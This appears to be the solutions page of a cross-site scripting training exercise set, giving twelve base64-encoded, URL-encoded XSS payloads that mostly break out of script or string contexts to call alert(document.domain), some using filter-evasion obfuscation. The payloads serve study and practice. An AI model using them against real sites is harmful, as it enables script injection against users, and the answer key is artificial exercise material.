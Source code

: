 # Solutions
Base64 of possible solutions.

Please try as hard as possible before looking at the possible solutions. 

___


Example 1

```
MSUyOSU3QiU3RCU3RCUzQmFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5JTNCZnVuY3Rpb24lMjB4eXolMjglMjklN0JpZiUyMCUyODElM0QlM0QlM0Qx
```
Example 2

```
JTI3LWFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5LSUyNw==
```

Example 3 (contains at least 3 different possible payloads. Some may require user interaction)

```
amF2YXNjcmlwdCUzQWFsZXJ0JTI4MSUyOSUzQiUyMm9uY2xpY2slM0QlMjJhbGVydCUyODIlMjklMjIlM0UlM0NzY3JpcHQlM0VhbGVydCUyODMlMjklM0Mvc2NyaXB0JTNF
```

Example 4

```
JTI3JTNCJTdEJTdEJTNCYWxlcnQlMjhkb2N1bWVudC5kb21haW4lMjklM0JmdW5jdGlvbiUyMHh5eiUyOCUyOSU3QiUyMGlmJTIwJTI4MSUzRCUzRCUzRDElMjklN0IvLw==
```

Example 5

```
JTI3KmFsZXJ0JTI4ZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMjkqJTI3
```

Example 6 (several solutions are possile)

```
JTI3JTJiZXZhbCglMjdhJTI3JTJiJTI3bGUlMjclMmIlMjdydCUyNyUyYiUyNyUyNyUyYiUyNyhkb2N1bSUyNyUyYiUyN2VudCUyNyUyYiUyNy4lMjclMmIlMjdkb20lMjclMmIlMjdhaW4pJTI3JTJiJTI3JTI3KSUyYiUyNw==
```
Example 7

```
JTI3KndpbmRvdyU1QiU1QiUyN2ElMjclMkMlMjdsJTI3JTVELmNvbmNhdCUyOCU1QiUyN2VyJTI3JTJDJTI3dCUyNyU1RCUyOS5qb2luJTYwJTYwJTVEJTI4ZG9jZG9jdW1lbnR1bWVudCU1QiUyN2RvbWFpbiUyNyU1RCUyOSolMjc=
```

Example 8

```
JTI3KmFsYWxlcnRlcnQlNjB4c3MlNjAqJTI3
```

Example 9

```
JTVDeDI3JTVDeDNiJTVDeDYxJTVDeDZjJTVDeDY1JTVDeDcyJTVDeDc0JTVDeDI4ZG9jdW0lNUN4NjVuJTVDeDc0JTVDeDJFZG9tJTVDeDYxaW4lNUN4MjklNUN4MmYlNUN4MmY=
```

Example 10 (read the php file)

```
MSMlMjUzQ3NjcmlwdCUyNTNFYWxlcnQoZG9jdW1lbnQuZG9tYWluKSUyNTNDL3NjcmlwdCUyNTNF
```

Example 11

```
JTVDdTAwNjElNUN1MDA2YyU1Q3UwMDY1JTVDdTAwNzIlNUN1MDA3NCUyOCU1Q3UwMDY0JTVDdTAwNmYlNUN1MDA2MyU1Q3UwMDc1JTVDdTAwNmQlNUN1MDA2NSU1Q3UwMDZlJTVDdTAwNzQuJTVDdTAwNjQlNUN1MDA2ZiU1Q3UwMDZkJTVDdTAwNjElNUN1MDA2OSU1Q3UwMDZlJTI5JTNC
```

Example 12

```
YSUyNyk7YWxlcnQoZG9jdW1lbnQuZG9tYWluKTthdG9iKCUyN2E=
```
